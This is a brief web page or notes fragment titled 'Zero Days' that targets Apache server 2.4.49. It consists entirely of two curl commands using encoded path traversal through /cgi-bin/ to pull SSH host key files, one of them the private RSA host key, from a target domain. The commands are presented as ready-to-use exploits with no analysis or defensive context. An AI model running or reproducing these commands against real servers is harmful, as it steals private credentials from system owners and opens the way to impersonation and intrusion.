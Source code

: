 <h1>Zero Days</h1>

<h3>Apache server 2.4.49</h3>
<p><code>curl --silent --path-as-is --insecure http://$domain/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e/etc/ssh/ssh_host_rsa_key</code></p>
<p><code>curl --silent --path-as-is --insecure http://$domain/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e/etc/ssh/ssh_host_ecdsa_key.pub</code></p>
